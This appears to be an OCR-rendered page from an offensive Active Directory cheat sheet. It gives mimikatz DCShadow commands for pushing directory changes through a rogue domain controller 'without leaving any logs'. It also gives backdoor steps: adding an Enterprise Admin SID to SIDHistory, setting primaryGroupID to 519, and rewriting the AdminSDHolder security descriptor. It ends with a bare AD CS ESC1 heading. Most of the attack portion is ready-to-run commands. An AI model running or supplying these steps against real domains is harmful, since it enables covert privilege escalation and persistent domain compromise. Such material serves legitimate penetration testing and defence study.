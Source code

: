 
### DCShadow

You can add new DC to the domain without leaving any **logs** regarding the **modifications**. You **need DA** privileges and be inside the **root domain**.

```
//To perform the attack you need 2 mimikatz instances. One of them will start the RPC servers with SYSTEM privileges (you have to indicate here the changes you want to perform), and the other instance will be used to push the values:
// mimikatz1(RPC Server)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"

//mimkatz2
lsadump::dcshadow /push

//Notice that **`elevate::token`** won't work in mimikatz1 session as that elevated the privileges of the thread, but we need to elevate the **privilege of the process**. You can also select and "LDAP" object:
/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local

```

Using DCShadow to create backdoors

```
// Set EnterpriseAdmin in SidHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519 
```

```
// Change PrimaryGroupID (put user as member of DAs)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

```
// Modify ntSecurityDescriptior of AdminSDHolder (give full control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```


### AD CS

##### ESC1

Use certipy tool to Enumerate for vulnerable template to ESC1
